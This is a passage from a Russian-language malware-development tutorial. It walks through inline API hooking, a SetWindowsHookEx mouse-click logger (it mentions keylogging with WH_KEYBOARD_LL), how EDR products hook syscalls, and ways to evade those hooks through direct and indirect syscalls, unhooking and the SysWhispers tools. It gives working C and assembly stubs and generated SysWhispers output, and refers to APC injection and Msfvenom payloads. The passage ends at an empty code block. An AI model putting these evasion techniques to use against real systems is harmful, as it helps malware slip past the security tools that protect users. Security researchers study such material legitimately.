printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Основная функция
Основная функция ниже вызывает ранее продемонстрированные функции и устанавливает хук на WinAPI MessageBoxA.
C:
int main() {
// Инициализация структуры (необходима до установки/снятия хука)
HookSt st = { 0 };
if (!InitializeHookStruct(&MessageBoxA, &MyMessageBoxA, &st)) {
return -1;
}
// будет запущено
MessageBoxA(NULL, "Что вы думаете о разработке вредоносного ПО?", "Оригинальное сообщение", MB_OK | MB_ICONQUESTION);
// установка хука
if (!InstallHook(&st)) {
return -1;
}
// не будет запущено - с хуком
MessageBoxA(NULL, "Разработка вредоносного ПО - это плохо", "Оригинальное сообщение", MB_OK | MB_ICONWARNING);
// снятие хука
if (!RemoveHook(&st)) {
return -1;
}
// будет запущено - хук отключен
MessageBoxA(NULL, "Обычное сообщение снова", "Оригинальное сообщение", MB_OK | MB_ICONINFORMATION);
return 0;
}Перехват API - Использование API Windows
Вызов WinAPI SetWindowsHookEx является альтернативным методом перехвата API. Он преимущественно используется для отслеживания определенных типов системных событий, что отличается от техник, используемых в предыдущих модулях, так как SetWindowsHookExW/A не изменяет функциональность функции, а вместо этого выполняет обратный вызов функции каждый раз, когда происходит определенное событие.
Типы событий ограничены теми, что предоставляет Windows.
Использование SetWindowsHookEx
WinAPI SetWindowsHookExW показан ниже.
Код:
HHOOK SetWindowsHookExW(
[вход] int idHook, // Тип процедуры перехвата, который будет установлен
[вход] HOOKPROC lpfn, // Указатель на процедуру перехвата (функцию для выполнения)
[вход] HINSTANCE hmod, // Дескриптор DLL, содержащей процедуру перехвата (это оставляют как NULL)
[вход] DWORD dwThreadId // Id потока, с которым будет ассоциирована процедура перехвата (это оставляют как NULL)
);idHook - Событие, которое будет отслеживаться. Например, флаг WH_KEYBOARD_LL используется для отслеживания сообщений нажатия клавиш, которые могут действовать как кейлоггер.
Обратите внимание, что использование SetWindowsHookEx для кейлоггинга - старый трюк. В этой статье будет использоваться флаг WH_MOUSE_LL для отслеживания кликов мыши.
lpfn - Указатель на функцию обратного вызова, которая выполняется всякий раз, когда происходит указанное событие. В данном случае функция будет выполняться при каждом клике мыши.
Функция обратного вызова
Функция обратного вызова должна быть типа HOOKPROC, который показан ниже.
C:
typedef LRESULT (CALLBACK* HOOKPROC)(int nCode, WPARAM wParam, LPARAM lParam);Таким образом, функция обратного вызова должна быть определена, как функция ниже.
C:
LRESULT HookCallbackFunc(int nCode, WPARAM wParam, LPARAM lParam){
// код функции
}Функция обратного вызова также должна использовать WinAPI CallNextHookEx и возвращать его результат. CallNextHookEx передает информацию о перехвате следующей процедуре перехвата в цепочке перехватов. Другими словами, он передаст информацию о перехвате функции обратного вызова в следующий раз, когда она будет выполнена.
Функция обратного вызова обновлена, чтобы включать в себя CallNextHookEx.
C:
LRESULT HookCallbackFunc(int nCode, WPARAM wParam, LPARAM lParam){
// Код функции
return CallNextHookEx(NULL, nCode, wParam, lParam);
}На основании замечаний Microsoft вызов CallNextHookEx является необязательным, но настоятельно рекомендуется. В противном случае другие приложения, которые установили перехваты, не будут получать уведомления о перехватах и могут работать неправильно.
И наконец, последняя часть - код функции обратного вызова. Код будет отслеживать действие, поэтому в этом примере функция проверяет, какая кнопка мыши была нажата с помощью следующего кода.
C:
LRESULT HookCallbackFunc(int nCode, WPARAM wParam, LPARAM lParam){
if (wParam == WM_LBUTTONDOWN){
printf("[ # ] Левый клик мыши \n");
}
if (wParam == WM_RBUTTONDOWN) {
printf("[ # ] Правый клик мыши \n");
}
if (wParam == WM_MBUTTONDOWN) {
printf("[ # ] Средний клик мыши \n");
}
return CallNextHookEx(NULL, nCode, wParam, lParam);
}Обработка сообщений
Получив код, необходимый для отслеживания кликов пользователя мышью, следующий шаг - убедиться, что процесс перехвата поддерживается. Это достигается путем выполнения кода мониторинга в течение определенного периода. Для этого SetWindowsHookExW вызывается внутри потока, который остается активным на желаемый промежуток времени с использованием WinAPI WaitForSingleObject.
C:
// Функция обратного вызова, которая будет выполняться каждый раз, когда пользователь кликает кнопкой мыши
LRESULT HookCallback(int nCode, WPARAM wParam, LPARAM lParam){
if (wParam == WM_LBUTTONDOWN){
printf("[ # ] Левый клик мыши \n");
}
if (wParam == WM_RBUTTONDOWN) {
printf("[ # ] Правый клик мыши \n");
}
if (wParam == WM_MBUTTONDOWN) {
printf("[ # ] Средний клик мыши \n");
}
// переход к следующему перехвату в цепочке перехватов
return CallNextHookEx(NULL, nCode, wParam, lParam);
}
BOOL MouseClicksLogger(){
// Установка перехвата
HHOOK hMouseHook = SetWindowsHookExW(
WH_MOUSE_LL,
(HOOKPROC)HookCallback,
NULL,
NULL
);
if (!hMouseHook) {
printf("[!] SetWindowsHookExW не удалось с ошибкой : %d \n", GetLastError());
return FALSE;
}
// Поддержание работы потока
while(1){
}
return TRUE;
}
int main() {
HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)MouseClicksLogger, NULL, NULL, NULL);
if (hThread)
WaitForSingleObject(hThread, 10000); // Отслеживание кликов мыши в течение 10 секунд
return 0;
}Улучшение реализации
Проблема с предыдущим кодом заключалась в том, что цикл while не обрабатывает сообщения перехваченной мыши, что приводило к задержке движения мыши на целевой машине. Чтобы решить эту проблему, необходимо обрабатывать все события сообщений с помощью DefWindowProc. Это обеспечит правильную обработку события системой и выполнение соответствующего поведения по умолчанию. DefWindowProcW вызывает стандартную процедуру окна для предоставления стандартной обработки любых сообщений окна, которые приложение не обрабатывает.
Чтобы получить детали сообщения, сначала должен быть вызван GetMessageW, который извлекает сообщение из очереди сообщений вызывающего потока. Затем это сообщение передается DefWindowProcW, который обрабатывает его. GetMessageW возвращает информацию о сообщении в структуре MSG, которая включает все, что необходимо для следующего вызова DefWindowProcW.
Все это должно выполняться в цикле, чтобы гарантировать ручную обработку каждого необработанного сообщения.
C:
// Функция обратного вызова, которая будет выполняться каждый раз, когда пользователь кликнет кнопкой мыши
LRESULT HookCallback(int nCode, WPARAM wParam, LPARAM lParam){
if (wParam == WM_LBUTTONDOWN){
printf("[ # ] Левый клик мыши \n");
}
if (wParam == WM_RBUTTONDOWN) {
printf("[ # ] Правый клик мыши \n");
}
if (wParam == WM_MBUTTONDOWN) {
printf("[ # ] Средний клик мыши \n");
}
// Переход к следующему перехвату в цепочке перехватов
return CallNextHookEx(NULL, nCode, wParam, lParam);
}
BOOL MouseClicksLogger(){
MSG Msg = { 0 };
// Установка перехвата
HHOOK hMouseHook = SetWindowsHookExW(
WH_MOUSE_LL,
(HOOKPROC)HookCallback,
NULL,
NULL
);
if (!hMouseHook) {
printf("[!] SetWindowsHookExW не удалось с ошибкой : %d \n", GetLastError());
return FALSE;
}
// Обработка необработанных событий
while (GetMessageW(&Msg, NULL, NULL, NULL)) {
DefWindowProcW(Msg.hwnd, Msg.message, Msg.wParam, Msg.lParam);
}
return TRUE;
}
int main() {
HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)MouseClicksLogger, NULL, NULL, NULL);
if (hThread)
WaitForSingleObject(hThread, 10000); // Отслеживание кликов мыши в течение 10 секунд
return 0;
}Удаление перехватов
Чтобы удалить любой перехват, установленный функцией SetWindowsHookEx, должен быть вызван WinAPI UnhookWindowsHookEx.
UnhookWindowsHookEx принимает только дескриптор перехвата для удаления.
Код перехвата SetWindowsHookEx
Приведенный ниже фрагмент кода соединяет все, что обсуждалось в этом модуле, чтобы выполнить перехват событий клика мыши, а затем удаляет перехват.
C:
// Глобальная переменная дескриптора перехвата
HHOOK g_hMouseHook = NULL;
// Функция обратного вызова, которая будет выполняться каждый раз, когда пользователь кликнет кнопкой мыши
LRESULT HookCallback(int nCode, WPARAM wParam, LPARAM lParam){
if (wParam == WM_LBUTTONDOWN){
printf("[ # ] Левый клик мыши \n");
}
if (wParam == WM_RBUTTONDOWN) {
printf("[ # ] Правый клик мыши \n");
}
if (wParam == WM_MBUTTONDOWN) {
printf("[ # ] Средний клик мыши \n");
}
// Переход к следующему перехвату в цепочке перехватов
return CallNextHookEx(NULL, nCode, wParam, lParam);
}
BOOL MouseClicksLogger(){
MSG Msg = { 0 };
// Установка перехвата
g_hMouseHook = SetWindowsHookExW(
WH_MOUSE_LL,
(HOOKPROC)HookCallback,
NULL,
NULL
);
if (!g_hMouseHook) {
printf("[!] SetWindowsHookExW не удалось с ошибкой : %d \n", GetLastError());
return FALSE;
}
// Обработка необработанных событий
while (GetMessageW(&Msg, NULL, NULL, NULL)) {
DefWindowProcW(Msg.hwnd, Msg.message, Msg.wParam, Msg.lParam);
}
return TRUE;
}
int main() {
HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)MouseClicksLogger, NULL, NULL, NULL);
if (hThread)
WaitForSingleObject(hThread, 10000); // Отслеживание кликов мыши в течение 10 секунд
// Отключение перехвата
if (g_hMouseHook && !UnhookWindowsHookEx(g_hMouseHook)) {
printf("[!] UnhookWindowsHookEx не удалось с ошибкой : %d \n", GetLastError());
}
return 0;
}Предельная техника. Разборка с сисколами
Что такое системные вызовы (Syscalls)
Системные вызовы Windows или syscalls служат интерфейсом для взаимодействия программ с системой, позволяя им запрашивать определенные услуги, такие как чтение или запись в файл, создание нового процесса или выделение памяти.
Помните из вводных модулей, что syscalls - это API, которые выполняют действия, когда вызывается функция WinAPI. Например, системный вызов NtAllocateVirtualMemory активируется при вызове функций WinAPI VirtualAlloc или VirtualAllocEx. Затем этот системный вызов перемещает параметры, предоставленные пользователем в предыдущем вызове функции, в ядро Windows, выполняет запрошенное действие и возвращает результат программе.
Все системные вызовы возвращают значение NTSTATUS, которое указывает код ошибки. STATUS_SUCCESS (ноль) возвращается, если системный вызов успешно выполняет операцию.
Большинство системных вызовов не документированы Microsoft, поэтому модули syscall будут ссылаться на приведенную ниже документацию.
Большинство системных вызовов экспортируется из DLL ntdll.dll.
Почему нужно использовать Syscalls
Использование системных вызовов обеспечивает низкоуровневый доступ к операционной системе, что может быть полезно для выполнения действий, которые недоступны или сложнее выполнять с помощью стандартных WinAPI. Например, системный вызов NtCreateUserProcess предоставляет дополнительные опции при создании процессов, которые WinAPI CreateProcess не может.
Кроме того, системные вызовы могут быть использованы для обхода хостовых решений по безопасности, о чем будет рассказано в этой статье.
Системные вызовы Zw против Nt
Существует два типа системных вызовов: те, что начинаются с Nt, и другие с Zw.
Системные вызовы NT - это основной интерфейс для программ в режиме пользователя. Это системные вызовы, которые обычно используют большинство программ Windows.
Системные вызовы Zw, с другой стороны, представляют собой низкоуровневый интерфейс в режиме ядра к операционной системе. Они обычно используются драйверами устройств и другим кодом в режиме ядра, которому требуется прямой доступ к функциональности операционной системы.
Подводя итог, системные вызовы Zw используются в режиме ядра при разработке драйверов устройств, в то время как системные вызовы Nt выполняются из программ в режиме пользователя. Хотя возможно использовать оба из программ в режиме пользователя и все равно получить одинаковый результат. Это можно заметить на приведенных ниже изображениях, где обе версии одного и того же системного вызова имеют один и тот же адрес функции.
Для простоты в этом курсе будут использоваться только системные вызовы Nt.
Номер службы системного вызова
У каждого системного вызова есть специальный номер системного вызова, который известен как номер системной службы или SSN. Эти номера системных вызовов используются ядром для различения системных вызовов между собой. Например, у системного вызова NtAllocateVirtualMemory будет SSN равный 24, тогда как у NtProtectVirtualMemory будет SSN равный 80, эти номера используются ядром для различения NtAllocateVirtualMemory от NtProtectVirtualMemory.
Разные SSN в зависимости от ОС
Важно знать, что SSN будут различаться в зависимости от ОС (например, Windows 10 против 11) и внутри самой версии (например, Windows 11 21h2 против Windows 11 22h2). Используя вышеупомянутый пример, NtAllocateVirtualMemory может иметь SSN равный 24 в одной версии Windows, тогда как в другой версии он будет 34. То же самое относится к NtProtectVirtualMemory, а также ко всем остальным системным вызовам.
Системные вызовы в памяти
Внутри машины SSN не являются абсолютно произвольными и имеют отношение друг к другу. Каждый номер системного вызова в памяти равен предыдущему SSN + 1. Например, SSN системного вызова B равен SSN системного вызова A плюс один. Это также верно, когда подходите к системному вызову с другой стороны, где SSN системного вызова C будет тем из системного вызова D минус один.
Это отношение показано на следующем изображении, где SSN ZwAxxessCheck равен 0, а SSN следующего системного вызова, NtWorkerFactoryWorkerReady, равен 1 и так далее.
Понимание того, что системные вызовы имеют отношение друг к другу, пригодится для обхода систем безопасности далее.
Структура системного вызова
Структура системного вызова, как правило, одинакова и будет выглядеть как показанный ниже фрагмент.
Код:
mov r10, rcx
mov eax, SSN
syscallНапример, NtAllocateVirtualMemory на 64-битной системе показан ниже.
И NtProtectVirtualMemory в качестве примера
Объяснение инструкций системного вызова
Первая строка системного вызова перемещает первое значение параметра, сохраненное в RCX, в регистр R10. Затем SSN системного вызова перемещается в регистр EAX. Наконец, выполняется специальная инструкция системного вызова.
Инструкции syscall на 64-битных системах или sysenter на 32-битных системах - это инструкции, которые инициируют системный вызов. Выполнение инструкции syscall приведет к тому, что программа передаст управление из режима пользователя в режим ядра. Затем ядро выполнит запрошенное действие и вернет управление программе в режиме пользователя по завершении.
Инструкции Test & Jne
Инструкции test и jne предназначены для целей WoW64, которые позволяют 32-битным процессам работать на 64-битной машине. Эти инструкции не влияют на поток выполнения, когда процесс является 64-битным процессом.
Не все NtAPI являются системными вызовами
Важно отметить, что хотя некоторые NtAPI возвращают NTSTATUS, они не обязательно являются системными вызовами. Эти NtAPI могут быть вместо этого функциями более низкого уровня, которые используются WinAPI или системными вызовами. Причина, по которой некоторые NtAPI не классифицируются как системные вызовы, заключается в их несоответствии структуре системного вызова, например, отсутствии номера системного вызова или отсутствии обычной инструкции mov r10, rcx в начале. Пример NtAPI, которые не являются системными вызовами, показан ниже.
LdrLoadDll - Это используется LoadLibrary WinAPI для загрузки образа в вызывающий процесс.
SystemFunction032 и SystemFunction033 - Эти NtAPI были представлены ранее и выполняют операции шифрования/дешифрования RC4.
RtlCreateProcessParametersEx - Это используется CreateProcess WinAPI для создания аргументов процесса.
Инструкции LdrLoadDll показаны ниже. Обратите внимание, как оно не соответствует типичной структуре системного вызова.
Syscalls - Перехват в пользовательском режиме
Введение
Решения по безопасности на стороне хоста часто используют перехват API на системных вызовах для анализа и мониторинга программ в реальном времени. Например, перехватывая системный вызов NtProtectVirtualMemory, решение безопасности может обнаружить более высокоуровневые вызовы WinAPI, такие как VirtualProtect, даже если они скрыты от таблицы адресов импорта бинарного файла. Кроме того, решения безопасности могут получить доступ к любому участку памяти, установленному как исполняемый, и сканировать его в поисках сигнатур. Перехватчики в пользовательском режиме обычно устанавливаются перед инструкцией системного вызова, которая является последним шагом для функции системного вызова в пользовательском режиме.
Перехватчики в режиме ядра могут быть реализованы после выполнения, после передачи управления ядру. Однако Windows Patch Guard и другие средства защиты делают сложной или даже невозможной задачу изменения памяти ядра сторонними приложениями. Установка перехватчиков в режиме ядра может также привести к проблемам стабильности и вызвать неожиданное поведение, поэтому она редко используется.
Пример подключения в пользовательском режиме
В этом разделе используется файл DLL, который при внедрении в процесс использует библиотеку Minhook для установки перехвата на NtProtectVirtualMemory с целью получения информации о действиях EDR относительно перехвата системного вызова. Установленный перехватчик обладает возможностью вывода содержимого памяти на экран в консоль, если он установлен как исполняемый (RX или RWX). Кроме того, процесс будет завершен, если обнаружена область памяти RWX.
Демонстрация перехвата EDR
Это просто демонстрация, как перехват NtProtectVirtualMemory может защитить от инъекции, код пока не приводится.
Рекомендую потренироваться самому.
Как устанавливать перехват можно почитать здесь:Кунгфу-2.Изучаем API Hooking | Цикл статей "Изучение вредоносных программ"
Этот раздел демонстрирует, как EDR может блокировать выполнение определенного полезного кода с помощью перехвата системного вызова. В этой демонстрации вредоносным бинарным файлом будет код внедрения APC (Изучаем технику APC Injection).
Запуск программы без перехвата NtProtectVirtualMemory.
Внедрение MalDevEdr.dll в ApcInjection.exe, с использованием Process Hacker. В MalDevEdr.dll установлен перехватчик NtProtectVirtualMemory.
DLL внедрена, и она обнаруживает RX (это связано с внедрением DLL).
При нажатии клавиши Enter в консоли ApcInjection.exe вызывается NtProtectVirtualMemory, устанавливая 0x0000025041080000 как память RWX, этот адрес памяти затем выводится на экран в консоль.
Выведенное содержимое - это полезная нагрузка Msfvenom calc.
Объяснение
Когда ApcInjection.exe использует VirtualProtect с аргументом PAGE_EXECUTE_READWRITE, он перехватывается MalDevEdr.dll. MalDevEdr.dll будет использовать базовый адрес, переданный VirtualProtect, для сброса содержимого этой области памяти. Так как область памяти изменяется на RWX, MalDevEdr.dll завершает программу и блокирует выполнение полезной нагрузки, чего не смог сделать Windows Defender Antivirus.
Этот концептуальный пример демонстрирует мощь перехвата API в обнаружении и мониторинге программы в реальном времени. В реальных условиях EDR обычно перехватывает более широкий диапазон системных вызовов, улучшая свою способность обнаруживать вредоносные действия.
Обход перехватчиков системных вызовов в пользовательском режиме
Использование системных вызовов напрямую является одним из способов обхода перехватчиков в пользовательском режиме. Например, использование NtAllocateVirtualMemory вместо VirtualAlloc/Ex WinAPI при выделении памяти для полезной нагрузки. Есть несколько других способов, которыми системные вызовы могут быть вызваны незаметно:
Использование прямых системных вызовов.
Использование косвенных системных вызовов.
Снятие перехвата.
Прямые системные вызовы
Обход перехвата системных вызовов в пользовательском режиме можно достичь, получив версию функции системного вызова, записанную на языке ассемблера, и вызвав этот созданный системный вызов напрямую из файла ассемблера. Задача заключается в определении номера службы системного вызова (SSN), так как этот номер меняется от одной системы к другой. Чтобы преодолеть это, SSN может быть либо жестко закодирован в файле ассемблера, либо вычислен динамически во время выполнения.
Образец созданного системного вызова в файле ассемблера (.asm) представлен ниже.
Код:
NtAllocateVirtualMemory PROC
mov r10, rcx
mov eax, (ssn of NtAllocateVirtualMemory)
syscall
ret
NtAllocateVirtualMemory ENDP
NtProtectVirtualMemory PROC
mov r10, rcx
mov eax, (ssn of NtProtectVirtualMemory)
syscall
ret
NtProtectVirtualMemory ENDP
// другие системные вызовы...Вместо вызова NtAllocateVirtualMemory с использованием GetProcAddress и GetModuleHandle, как это было сделано ранее в этом курсе, нижеследующую функцию ассемблера можно использовать для получения того же результата. Это исключает необходимость вызывать NtAllocateVirtualMemory из адресного пространства NTDLL, где установлены перехватчики, тем самым избегая этих перехватчиков.
Этот метод используется в инструментах, таких как SysWhispers и HellsGate, обсуждение которых будет позже в этой статье.
Косвенные системные вызовы
Косвенные системные вызовы реализуются аналогично прямым системным вызовам, где файлы на языке ассемблера должны быть созданы вручную. Различие заключается в отсутствии инструкции системного вызова внутри функции на языке ассемблера, к которой вместо этого происходит переход.
Визуальное представление представлено ниже.
Функции на языке ассемблера для NtAllocateVirtualMemory и NtProtectVirtualMemory представлены ниже.
C:
NtAllocateVirtualMemory PROC
mov r10, rcx
mov eax, (ssn of NtAllocateVirtualMemory)
jmp (address of a syscall instruction)
ret
NtAllocateVirtualMemory ENDP
NtProtectVirtualMemory PROC
mov r10, rcx
mov eax, (ssn of NtProtectVirtualMemory)
jmp (address of a syscall instruction)
ret
NtProtectVirtualMemory ENDP
// другие системные вызовы...Преимущества косвенных системных вызовов
Преимущество выполнения косвенных системных вызовов перед прямыми системными вызовами заключается в том, что решения безопасности будут искать системные вызовы, вызываемые из-за пределов адресного пространства NTDLL, и считать их подозрительными. С косвенными системными вызовами инструкция системного вызова выполняется из адресного пространства NTDLL, как это должно быть у нормальных системных вызовов. Поэтому косвенные системные вызовы более вероятно пройдут мимо решений безопасности, чем прямые системные вызовы.
Снятие перехвата
Снятие перехвата - это еще один способ обхода перехватчиков, при котором перехваченная библиотека NTDLL, загруженная в память, заменяется на версию без перехвата. Неперехваченная версия может быть получена из нескольких мест, но одним из общих подходов является ее загрузка непосредственно с диска. Таким образом, удаляются все перехватчики, размещенные в библиотеке NTDLL.
Прямой вызов системных вызовов при помощи SysWhispers
Введение
SysWhispers - это инструмент на питоне, который генерирует код на си и ассемблере, который позволяет обойти перехват системных вызовов через прямые системные вызовы. Существует несколько версий SysWhispers, имеющих разные функции. Различия между версиями будут рассмотрены в этом модуле.
SysWhispers:
SysWhispers создает заголовочные/ASM файлы имплантов для активации прямых системных вызовов на 64-битных системах. Он поддерживает системные вызовы от Windows XP до Windows 10 19042 (20H2). Поддерживаемые версии Windows ограничены, поскольку номер системного вызова (SSN) может изменяться с каждым обновлением Windows. Таким образом, прямая реализация системного вызова для конкретного системного вызова на Windows 10 1903 может быть несовместима с тем же системным вызовом на Windows 10 1909 и наоборот.
Поскольку одни и те же системные вызовы могут иметь разные SSN на разных версиях Windows, SysWhispers проверяет версию Windows целевой системы во время выполнения и вручную устанавливает SSN для соответствующей версии.
SysWhispers - Пример NtMapViewOfSection:
SysWhispers использует скрипт на Python для генерации двух файлов (пример). SSN берутся из Таблицы системных ыызовов Windows X86-64 и жестко кодируются в созданный файл сборки. Затем функции сборки определяют, какой SSN использовать.
Выходной пример SysWhispers:
Ниже приведены функции сборки, полученные при использовании SysWhispers для генерации прямых системных вызовов для NtMapViewOfSection.
Код:
// ...
NtMapViewOfSection PROC
mov rax, gs:[60h] ; Load PEB into RAX.
NtMapViewOfSection_Check_X_X_XXXX: ; Check major version.
cmp dword ptr [rax+118h], 5
je NtMapViewOfSection_SystemCall_5_X_XXXX
cmp dword ptr [rax+118h], 6
je NtMapViewOfSection_Check_6_X_XXXX
cmp dword ptr [rax+118h], 10
je NtMapViewOfSection_Check_10_0_XXXX
jmp NtMapViewOfSection_SystemCall_Unknown
NtMapViewOfSection_Check_6_X_XXXX: ; Check minor version for Windows Vista/7/8.
cmp dword ptr [rax+11ch], 0
je NtMapViewOfSection_Check_6_0_XXXX
cmp dword ptr [rax+11ch], 1
je NtMapViewOfSection_Check_6_1_XXXX
cmp dword ptr [rax+11ch], 2
je NtMapViewOfSection_SystemCall_6_2_XXXX
cmp dword ptr [rax+11ch], 2
je NtMapViewOfSection_SystemCall_6_3_XXXX
jmp NtMapViewOfSection_SystemCall_Unknown
NtMapViewOfSection_Check_6_0_XXXX: ; Check build number for Windows Vista.
cmp dword ptr [rax+120h], 6000
je NtMapViewOfSection_SystemCall_6_0_6000
cmp dword ptr [rax+120h], 6001
je NtMapViewOfSection_SystemCall_6_0_6001
cmp dword ptr [rax+120h], 6002
je NtMapViewOfSection_SystemCall_6_0_6002
jmp NtMapViewOfSection_SystemCall_Unknown
NtMapViewOfSection_Check_6_1_XXXX: ; Check build number for Windows 7.
cmp dword ptr [rax+120h], 7600
je NtMapViewOfSection_SystemCall_6_1_7600
cmp dword ptr [rax+120h], 7601
je NtMapViewOfSection_SystemCall_6_1_7601
jmp NtMapViewOfSection_SystemCall_Unknown
NtMapViewOfSection_Check_10_0_XXXX: ; Check build number for Windows 10.
cmp dword ptr [rax+120h], 10240
je NtMapViewOfSection_SystemCall_10_0_10240
cmp dword ptr [rax+120h], 10586
je NtMapViewOfSection_SystemCall_10_0_10586
cmp dword ptr [rax+120h], 14393
je NtMapViewOfSection_SystemCall_10_0_14393
cmp dword ptr [rax+120h], 15063
je NtMapViewOfSection_SystemCall_10_0_15063
cmp dword ptr [rax+120h], 16299
je NtMapViewOfSection_SystemCall_10_0_16299
cmp dword ptr [rax+120h], 17134
je NtMapViewOfSection_SystemCall_10_0_17134
cmp dword ptr [rax+120h], 17763
je NtMapViewOfSection_SystemCall_10_0_17763
cmp dword ptr [rax+120h], 18362
je NtMapViewOfSection_SystemCall_10_0_18362
cmp dword ptr [rax+120h], 18363
je NtMapViewOfSection_SystemCall_10_0_18363
jmp NtMapViewOfSection_SystemCall_Unknown
NtMapViewOfSection_SystemCall_5_X_XXXX: ; Windows XP and Server 2003
mov eax, 0025h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_6_0_6000: ; Windows Vista SP0
mov eax, 0025h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_6_0_6001: ; Windows Vista SP1 and Server 2008 SP0
mov eax, 0025h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_6_0_6002: ; Windows Vista SP2 and Server 2008 SP2
mov eax, 0025h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_6_1_7600: ; Windows 7 SP0
mov eax, 0025h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_6_1_7601: ; Windows 7 SP1 and Server 2008 R2 SP0
mov eax, 0025h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_6_2_XXXX: ; Windows 8 and Server 2012
mov eax, 0026h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_6_3_XXXX: ; Windows 8.1 and Server 2012 R2
mov eax, 0027h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_10_0_10240: ; Windows 10.0.10240 (1507)
mov eax, 0028h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_10_0_10586: ; Windows 10.0.10586 (1511)
mov eax, 0028h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_10_0_14393: ; Windows 10.0.14393 (1607)
mov eax, 0028h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_10_0_15063: ; Windows 10.0.15063 (1703)
mov eax, 0028h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_10_0_16299: ; Windows 10.0.16299 (1709)
mov eax, 0028h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_10_0_17134: ; Windows 10.0.17134 (1803)
mov eax, 0028h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_10_0_17763: ; Windows 10.0.17763 (1809)
mov eax, 0028h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_10_0_18362: ; Windows 10.0.18362 (1903)
mov eax, 0028h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_10_0_18363: ; Windows 10.0.18363 (1909)
mov eax, 0028h
jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_Unknown: ; Unknown/unsupported version.
ret
NtMapViewOfSection_Epilogue:
mov r10, rcx
syscall
ret
NtMapViewOfSection ENDP
// ...Объяснение:
Структура PEB содержит три элемента, которые можно использовать для определения версии Windows OS:
- OSBuildNumber
- OSMajorVersion
- OSMinorVersion
- Поскольку основной элемент версии PEB равен 10, выполняется метка NtMapViewOfSection_Check_10_0_XXXX.
- Эта метка затем проверяет номер сборки системы. В этом примере этот номер равен 1809, что заставляет его перейти на метку NtMapViewOfSection_SystemCall_10_0_17763.
- Затем SSN устанавливается в 0028h.
- Затем происходит финальный переход на метку NtMapViewOfSection_Epilogue, где выполняются оставшиеся инструкции системного вызова. Напомним, что функция системного вызова имеет следующий формат:
Код:
mov r10, rcx
mov eax, SSN
syscall
retSysWhispers2:
SysWhispers2 использует ту-же концепцию, что и его предыдущая версия, главное отличие заключается в том, что SysWhispers2 не требует от пользователя указания, какие версии Windows поддерживать в генераторе Python.
Это потому, что SysWhispers2 больше не полагается на Таблицу системных Вызовов Windows X86-64 для SSN, а вместо этого использует метод, называемый сортировка по адресу системного вызова. Этот метод исключает необходимость в ручном выборе SSN на этапе выполнения, что приводит к меньшему размеру оболочек системных вызовов.
Сортировка по адресу системного вызова:
Сортировка по адресу системного вызова - это метод для получения SSN системного вызова во время выполнения. Это делается путем поиска всех системных вызовов, начинающихся с Zw, затем сохранения их адреса в массиве и сортировки их в возрастающем порядке (от меньшего к большему адресу). SSN станет индексом системного вызова, сохраненного в массиве.
Реализация SysWhispers2:
Сортировка по адресу системного вызова осуществляется через функцию SW2_PopulateSyscallList Syswhispers2, которая извлекает базовый адрес NTDLL и его экспортный каталог. Используя эту информацию, она рассчитывает RVA экспортируемых функций (адреса, имена, порядок).
Далее SysWhispers2 проверяет имена экспортируемых функций на предмет префиксов с Zw. Эти имена функций хешируются и сохраняются в массиве вместе с их адресами. После этого SW2_PopulateSyscallList сортирует собранные адреса в возрастающем порядке.
Чтобы найти SSN системного вызова, функция SW2_GetSyscallNumber принимает хеш имени целевого системного вызова и возвращает индекс, где этот хеш системного вызова найден в массиве.
Значение индекса - это SSN системного вызова.
Визуальный пример реализации показан ниже.
SysWhispers3:
Помните, что системный вызов отвечает за изменение потока выполнения из режима пользователя в режим ядра. Легитимные инструкции системного вызова всегда должны выполняться из адресного пространства ntdll.dll. Поэтому, когда инструкция системного вызова включена в двоичный файл, как это было с SysWhispers и SysWhispers2, инструкция системного вызова происходит извне этого адресного пространства. Таким образом, двоичный файл, выполняющий инструкцию системного вызова, может быть индикатором злонамеренных намерений.
Обновления в Syswhispers3 можно найти в блоге "SysWhispers умер, да здравствует SysWhispers!". Ниже показана сводка изменений.
Сам исходник есть на гитхабе:GitHub - klezVirus/SysWhispers3: SysWhispers on Steroids - AV/EDR evasion via direct system calls.
Изменения в SysWhispers3:
Вместо того чтобы напрямую вызывать инструкцию системного вызова из функций сборки, SysWhispers3 будет искать инструкцию системного вызова в адресном пространстве ntdll.dll, выполнять инструкцию прыжка туда и выполнять инструкцию системного вызова. Этот метод использует технику косвенного системного вызова.
Кроме того, Syswhispers3 поставляется с опцией jumper_randomized, которая будет выполнять прыжок к инструкции системного вызова, которая принадлежит случайной функции. Например, при вызове NtAllocateVirtualMemory с этой опцией инструкция системного вызова, к которой будет произведен прыжок, не принадлежит NtAllocateVirtualMemory в ntdll.dll. Вместо этого инструкция принадлежит другому системному вызову, такому как функция NtTestAlert.
Как и в предыдущей версии, Syswhispers3 использует метод сортировки по адресу системного вызова, чтобы найти системный вызов.
Выходной пример SysWhispers3:
SysWhispers3 используется для генерации заглушки вызова системного вызова для функции NtMapViewOfSection. Выход Syswhispers3 выглядит аналогично Syswhispers2 с основным отличием в дополнительных вызовах функций SW3_GetRandomSyscallAddress и SW3_GetSyscallNumber, которые показаны и объяснены ниже.
Модуль Syscalls-asm.x64.asm
C:
